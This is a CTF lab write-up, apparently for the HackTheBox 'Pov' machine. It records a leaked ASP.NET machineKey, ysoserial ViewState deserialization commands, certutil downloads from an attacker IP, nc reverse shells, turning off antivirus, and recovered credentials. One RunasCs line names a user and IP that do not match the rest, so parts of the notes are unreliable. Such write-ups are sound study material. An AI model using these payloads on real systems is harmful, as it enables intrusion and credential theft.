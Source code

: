 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #seDebug

# Findings

## External
### Enumeration
`$enum$`

### Gaining Access


## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access


# Random Notes
![Uploading file...rk854]()
![[Pasted image 20240415135533.png]]
<!--⚠️Imgur upload failed, check dev console-->
![Uploading file...h76zb]()
![[Pasted image 20240415150243.png]]
![](https://i.imgur.com/nEqcV6c.png)
![](https://i.imgur.com/d208Qgv.png)
![](https://i.imgur.com/ws9iY5L.png)
- the exif result of the `cv.pdf`
Stephen Fitz
	![](https://i.imgur.com/cvRwXsw.png)
![](https://i.imgur.com/IpDupae.png)
```xml
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```
![](https://i.imgur.com/46mf6X5.png)

![](https://i.imgur.com/4kBl0g4.png)
- This code tells us adding the `../` is useless it will replace it with nothing.
![](https://i.imgur.com/7wvRxTE.png)
`Devcrud:`
`- Email : sfitz@pov.htb`
- Tried to Fuzz the `file=` parameter and nothing found.
	- ![](https://i.imgur.com/FHZJdPn.png)
	- Then i Tried to Test the `VIEWSTATE` parameter 
		- https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter?source=post_page-----7516c938c688--------------------------------
- I got a command to run on [this] page and it was getting blocked by my antivirus
	- ![](https://i.imgur.com/gHz0oa3.png)
- So i paused the protection and executed the command.
```powershell
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "certutil.exe -urlcache -split -f http://10.10.14.92:9999/nc.exe nc.exe" --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
![](https://i.imgur.com/XlmcQmp.png)


![](https://i.imgur.com/kIzcDiS.png)
![](https://i.imgur.com/k21zwXG.png)
- SO now i tried to do a powershell reverse shell payload
```powershell
.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "certutil.exe -urlcache -split -f http://10.10.14.92:9999/winpeas.exe C:\Users\Public\win.exe" --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"

2kk9xeGQ5el2Ty1XlNxbGrKb1wL4lp6N1a1GGdLvbmdsl1G%2BFTKnM9O6DPIae65lKK%2BreJo1b4nYx3XX%2FVnxNlFVAabDmnBOf8N1jodhGvFLaX5jw%2FvoCbMpby45gejo%2FaWqB7TXAYSK%2BNadbqnEln944cm8Ftvj8XRzKcF5Dqh0fvz0POJlI2m%2BoTj5QyJbosIzYgHxL35bafp%2BOwnemTxl4IEROwcIaO4KwQqmueHd5uq%2F2r5JH8n6hS3VOAet6MIktZZlrCfBvMJvtIYhlpCZa%2FSOjaEqqJHPtrXZtWjC066FyXY7mTVm7%2BykeQrOMCqZ39WvRPq6Fas6%2FQ%2BPqzs21JD%2BMgug5%2F0rdc6beDmAaDdnhXMRQ4YEZpn%2FJSJ0%2B27dIOIVp5ejnpustvd1CEZAx53n9pRUvdxoIPS9F1R3YWrMakeb5Bsg6mpNL1WEibQi0zAUDqzcvEwzsR1Splzzta3PsWjnYT93sFTLS6qToph0NfzMWW0MbT625int3rfRMlFpnxjVZyhTcKDZMYA3gl6pucQ5C2sgS%2BG2vfIMIuw0ksoyw0J5SjevjYmKNSs85lyC4%2FxxiJ%2F%2FiHVaGflyIAY%2FCltzS9Gp5i1k3RK8V2kD3Dq4bXHsqJfLepoj%2FxIWNw0xz9l%2FfIezHpPbeBjxe8oOvbfB0EumZZvez6tzZRAvLnpRgngaYJI%2B0RQGUdFZ588OAZ%2BKHJh2rL0M2RQxzCDIHWiCTX9a2VSaNWvRxexBqefXrkpFqxFOtuTqdX6rHs6D78PHo65aZmIiwcrvSfYdbQOXiBFAm5JBxYPXO9cL7J6mxeMHu%2F9ES5OkcMa%2FdltObV1bwmahhAuPFwPP1AYwkXRyepf%2FlGVmHGlxo6H1P9R4zkjaeaX9LC4J3odqx29HSGQX5HgZ9W7UPPL4RzwRmUOXHxTT5yarEK6UAYaNvAmfqZ6rqypAt6WiMAu8MT%2BcACIXuh63Ame7AYo0J%2Fo50gV%2B%2Br0oOdqXWISXL7fg3biNHM3d8%2FvO7NZCmPOcwRanmDgnU9XNHI0Boll8ONeNdPUkuoy02g8JlBvg3mMBpK3HhnoYBXKR5eKN%2BQytqeJSrMaJzD3QX73ffQvjpeG1lbMz9T1U2BqEcnxXV1xqVlgDDXfaTtQcPj7%2BjqMy4PBtEKStgFe2U1yTAfS6dN6oiDeo6nYX0x1LpynpSCcQb%2BwkdbTNZW0rvvooQy1xDlt2MTsWSBULR5%2FcQcRsVJQB%2FDA55dkeow16tJqobp1fngvntslFxdyfRKKwJ%2FKWKWAx9cxz4tRSnAZptGaMe55%2FPurPwLnA%2BXBDxaoLOf%2F2RgKlMYoLW80DEL0onPO2polKdfA0TviIKQtB4NvMiKNaLGXEjab%2FODkWiYSYuczihLfc4ULATFb2EJMyRzjyFB6O8u4vlDLmx%2BXywAq%2Fa9c1EgS%2FFrygkNw0M7lNWmEXNYdeG39v48aquYDgUYTaRfECVGUXN%2BeUB%2FOtM%2BGRm1mZ8Yws0n3M66ofQg9GMKZMIj8IkA3FkGyBv8nuPiJMGiRg5cJ1zf0yPdY8VI0LrkDJKlfnfJLEoiGvjb54pptn3JzHh%2F4YeIim0uh6YLtfc9QjZbNM0AKi8XXmgwnhezDYx8%2FIEBnPGRr5vODCIMiEBnGghUxiF%2BYN6PYcLuyIr%2BbsNIpL%2B1fe6x5jMcd1w4vjS%2FqrvsD5chJr48ETlRkR7DaBKt2bmHdjWgbi0vY4Gm8P8JjDTqT04TnYlF%2Bk%2FXjH7J5xJIJ4%2Fiaqj6DlDdN%2BUI5Xy7%2FiFbFtftTvbj0tBAuTLMq5r2wW6zlYhRhe3nXzDieeUmZ2uQKrKjFBiY6uEuZxb2aOBRNXxEuunQAcxD%2BhODjOWIh1Rm0hQews45tZprMdjnLaU7AGiy7hGtNlfYabUoZ4BVc%2Bcc44OXKMabKFkRVe9Qf3r9JcP3VoScE61iasusAbiA65XAfZxbIfN4GCq9zIeGKbuESdxjcSfXBUll5Tu7gwS8I6R%2FElSyNmb5FFXJ9BQvtJ2WyKOKaFSRaUIN9XVIgMzEaqUtwEAY8K0mICsNltILNPJ%2B3ZnRJlgzJ5gYiVfg26Cr0OdJrH%2Fq6VbReI1NlTWwImS0AK%2BKzxilW%2BObbgBIo%2FkaNvHHJpFynwcijoWbQM5IfKQ1X3dcYeAlSqayptBCCxAXWuyJKTOwq15FOx5Mpmw0U4KW%2BbEUi%2BpNKPorjQ%2BOff%2BPBgA%2BClqaB13lk%2BSsXfZrAzBjL%2FdgwyYRmFY9d3LELcP5hgVev3V5Syh6I2qtrPMJnRmhTuvaIYkoPf%2Fwxc43W9KitH42MUhraXaPGKtjTnFMzCamijJ93pouY0zRsTajdDSg7oElVu5vdmpLgnYZx%2FuHJSeDzahDUCl9jf1JTm4vvbIrXvilQMMQlSGyCfxb4z8xH09siKWFboyiWnDoXJBXlFugqqWo3N6%2B%2B02XcYnt4WO8BxRPmED7XMu9idADCFgysHpm7Sa4JYw6SIp3eV9evyQWyp8DlJOdJpbfqvWscUCWCRRWTDXvcTVg3UufZr0hRbtCYLVvH2wTAF9NmDHClaSk1tbzsfY%2FqJaKm%2B4u4QkUkyBrSB67wHX3gAIX57E8QmSGY59skgACk4d975n%2BqurFFWuovBevWOeuDV1I2WX%2B1Tf3YJFvlMjExGKrQaC0ajYe5IecvF4mn4Xu19Q6kt4JadP4TGYmZR7zJRIOyAoDYOWRB8cP5tOOdcM2ebJs8Vj3ABsfuhz2%2Fc6URfrNncPD4a6JydXwUbPxHwOsQe8jz4KfvbjewuS7BVcxyxpyLl5hTM2BRmI2MLXkY8K1HYe9jXrlN1NCAYcEa4m8QPO8SIXHhEirYb5j%2BdfPNgTKM1iudRQo5rvJ3LBk%2Fdw1jAoYFjaujz1K%2BQ0BdDmWzreiUnE5173Lbd9V46qNGZtel6wVcPiChAz5TPCXARTy4CSSbR6FYRw0NJTyvFbBCjJjdbxLL%2B7x9p%2B%2BvS2wHvAfCZrGko6m2R4lRkvHFFLjq9lDfj73p6SpU0ytkrwIt2beGtyBEThlmIV4mveA5RwsGEfq%2B3hlQpQivh4H6NjMqVP46h1fmq2%2Fw5WPC1CDVh2K6lWUUgP9hZketyNcFSsixOhG62is0U%2BP6JbB951teGP2K5ioNStWHtDBQjdWY%3D



.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "C:\Users\Public\nc.exe 10.10.14.92 4444 -e cmd.exe" --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"


kgo%2F8d%2B1QzOCU5iZDzB2P2OwjyoHboxFLp28%2FXrPBn3Jv1ZA5BOyPyX86Ldpc35AW4VeKf5JHBkdt%2BSM5258YGQrRLxJONCXRWVjB9VNtsVM3o%2BbMigVhdxtmCWwvQUOQjd7T20q23k899%2F0e%2BrVkGO%2BruceJTEckRnOzjtumIfYmc5kX6gnsRiaCH1ufzBq%2Bv6cOC6D%2BAkVFdTyMo2w5YJCNt7ItccUcJpejRqHOP%2FRJZzz0H7unN7aL%2FvMJsYnHqB5JoxVh8ARYaBsKK6a3XVhIUCIdkzi84i856FoizJhlF61B6m7a7Ql3MMcpKl%2Fl%2F0ZszLfWG%2Fj84mYr3%2FH4sqc9VYYkbaWMMSdwOTmQIWkYYfa2n9gGD2Db409pcsvlyw5e4744XfkUbXaq1IJk3xK0UJgpg2v1Z0OZpDPWp%2F6Y%2BJjcJ2Cf%2BnpWxhw75zvycKTYbyILN%2Fr%2FpkrtuKDVTdqKd1lWwezMhUifQYX8mfA2exnHC7JNuwZbo37KIZIUAOYY5Xo0L3Xt%2BJs4KpDDrV%2B4dE16ol5J9r5w%2BhTnYh%2F1r59Uj9yJTUMhGSvnlMAA8uUa2PiJ5Us3RZSCvHQ6Tl%2FJ4IJs9KeBmK8gwox01EHJtXUUawr8bXi4Y2OtA1IuxjCvR%2FpJvycH8o9Pu3AcvRvSLsQIYiGb0QTmPw2%2BPBItonnZ4du5McelesEWACxZEpDkeZ2RB9w4yThGW7KyN3kjxzbMfu9KrKuj%2FzmKAjpkLSepKoO1vALw5e3AW6FRNZhk2BKNIKBo7fbg7FrYwkEzyEzrmC9tXolxl25CLwBQcVx5zUuz0UOsP2zquNKGoJVheWkVeOT4IIgwB2pNo%2B3YJVOPDyILnt95tZcWWdoDri23hrzm7TggiswRk2xRYb6wRIRZPnnegrbO4%2B%2Bn5uql4%2Fgw8J4IejyJSMhvNm4u0x%2BmorNVC2z1ql4hO5o27ha%2B7VUCd0sk5Zfc%2FJIsdE3OxyOcfrK%2BDu14NgUSl3noILpCsmGVuzUA7s%2Fi6DyTYRetEvFr63H6rLwYhaZaLGYa6vzD%2BhKwZ7G3MvTNwWHBR49yFIsZ9Btut39YZ90pUDMpltCIt%2BhsBSW5hW0ZUMOqMjVgUlJRs%2FKmH5heSn32Us6d3AE2%2FPNaQobNZizYCS%2BVo9i0RPeRx8B1ktpTplC5%2BoXr00Y0v3yp8WM1024GRccnmZRH4HpcVYxRAisTLoCZFe%2FTH6Oqzb3eFjI%2BgeXddFIVmZ%2FdnPPAhZheseQFAX0svda4KWCqt8FmM9HcNfolLLzUs6WXPKj0EVb7bon1sc%2FfM9%2BU9vgsdVHkvXGRsktWOjz38YrGEMRx8%2B5mFeTPOZXs%2FxW0VRPL9x34i1dUzQRpXdwz8c6Pej7rr81pwx4j3yPJljX5ON5GCOC6ooaPDdcz%2Ftr6tJ6h%2F1gZAUsnohC%2FVDhIzBDicpG8AGTrb2oWD1UTxKNtcecN9s3F83isq2PVTKo0nmN%2BL8bIDZbk48C8so9smcTFH2AOHXgZ1p4quDFd4TtmzlLKtnbM0nLf1Hzb%2BvbHO0nKevihEyN13UtUDmjKXCyXa7iBrBdg8XgoLM2DtGDwmDsd4iW6GuTnz2%2FTONUT3dP8j%2FPqJLOoJWVrKtrvT%2BnKC2ntLG1t%2FkTUMfO5weU%2BxXCzzbnKkpuulBxjLF0FTjZA6IqxVzNhDhGFWxPr5xeJcLjXUl%2BfyhXFuFS%2BlGjNz2lXm9%2FEW2%2Fh7pAvuyZBZfYViRh62r4w2A91d3n3n31HXC8%2BNEG0s15i6H0Wt5OexkOrzYQDDhynqoXEGcVh7x0P8lgRB5YRbW%2FE9%2F52gNiYVxQMZicv%2FuTpDjlEboc0idkj2zdWPh%2B4JVN%2FK%2BTH0Un9ddDuULEnvmLstUV%2BzMGXtR0e9sT1%2FTeFQqCbRPgkSUQhtXMJRiVauT3IspkVZV%2Bz4EYiboYd8QgE2tzG7YGw1C0CSkwRMZPTcJAymQiz7HMTVgLKlFA4iIXxaGdDBKI2T8KCOxTH3AUrGFyP3t2O5MI%2Bo4boNpXH%2BWvXqgi6U%2FXsDHqNlJd%2Bp17LglrbRSqoibca6ZxMtnPTEd4pPAG9EWea6wnl%2FpdDgjhUddayFhvE8mdKZLKD8BcWVQr%2FQ%2Ftsey7FqzSDlLWc37pYDJEKrKRtOzEGWZAWg7cNsRAav4AHqDk0sTBeHR7FtLuB8Kw0ZHALu9Us%2B61XgRgZB6q6kBzMWjt1%2FlYH6SQoXL%2Bfm5ACCUPZzm2s364idhK4%2FaKqxaRh6e7cmgCvDsE%2B3qMARPwUYUTKRHc%2FtGURZNPbZdd1MdZcKyP7a6bCRx6wN70ooDFN%2FyvrJK6FbwavWte88l1jUq%2BCBtl1NUkJ9Wj0KySVFBtIg6sSM46WwUcZNAQHklf2t9ukUjh9BizwkVqbwHQiRZFxN03BhFlnvSnF%2BGABU66eyo%2FkQXX8Hbm%2BUWzFOryOgVEnyTEZqyB4QAP3hnCahZj%2F0ti%2FO0ijdZEH8S2mKciKDIo8%2Fc72qZ3oUZba0nX8Buyat5pVgDvhBw2S5NMy32W0rWROIkiwlnuGDTKFf%2FQtR20WvE3j40nKU91Hzdmj%2FOBMrSlP1k2mIEC5r1hgGGNVsqL%2Bo3It%2Fc%2BIdBEl1mPLTdCLJZg1m5qqDPoJPan%2FmFNDvNyb9PxVJaQfFxHQUa1CDdxap%2B%2B6PVoYKWwtgdDUmjbpMoL0gdxuzv0NMcOwX4HyxTs4Uqp3dC%2FyidheWFaTrTMsUxXPxsWXNqKpRosYsOzKvdneceCMiHI5uzMYtAtF296g5d6%2BqoSlBJhZ%2BfpNItdRGskaG%2FLz4xiLW2pWpdcOm4lUc%2Ffd3Yzac0257UOvPQz3Oy1gK%2BU6JAPk5TZCspe01BZTxS5xzEjbarB4%2FI%2FQ0HpnnnBdsVwf7TaKzDt2%2FB8a4tMQkdYHmOhBfWIl4xTTeKhJ%2FtCiPfXpG6SMnvSdxxkwh%2BKyCax3jfF8soFMUEjvdAlKalNHyw6wguZ1dHR3P47%2BO83gQOL%2FoOME2RkQhMBS%2FK9KaanUZBa2bm6X38G6ktVZVHC0j%2BiDo2CrrdqVLms5ZvBcYPSSxqd9HXiOgbPQDcy1WgEzy7zGTWGC6MzGCttgCn%2BF2iy2TWVHdv7
```
- It was hard, beacuse WIndows Defender was deleting it everytime.
	- ![](https://i.imgur.com/OIBybdu.png)
- But we did it
	- ![](https://i.imgur.com/EW4ATT4.png)
- I did some enumerations on the user, and i got user `alaading` Powershell Credentials.
	- ![](https://i.imgur.com/MOZinvF.png)
	- ![](https://i.imgur.com/E0TkQWO.png)
	- It is Powershell encoded so, i tried to decode and got the password
		- ![](https://i.imgur.com/b7jupOu.png)
`alaading : f8gQ8fynP44ek1m3`

TO connect with the user i used tool called `RunasCs`
	![](https://i.imgur.com/rGw1hpY.png)
	Invoke-RunasCs -username svc_loanmanager -Password 'Moneymakestheworldgoround!' -Command "nc.exe 10.10.16.52 4433 -e powershell.exe"
![](https://i.imgur.com/bmGMqQv.png)
![](https://i.imgur.com/Y7I5RJv.png)
- We got user flag
	- ![](https://i.imgur.com/YEU4CHN.png)
- ![](https://i.imgur.com/db6auCL.png)
- `SeIncreaseworkingSetPrivilege` is Disabled lets enable it using `EnableALlTOkenPrivs.ps1`(https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
	- ![](https://i.imgur.com/HDUCQCz.png)

- I wanted to use metasploit on the debug privilage.
	- ![](https://i.imgur.com/YjKPWrD.png)
	- ![](https://i.imgur.com/zcruKPv.png)
	- ![](https://i.imgur.com/cVu2j4V.png)

- ![](https://i.imgur.com/qMFt9AH.png)
![](https://i.imgur.com/zZFHMsV.png)
- we Got root!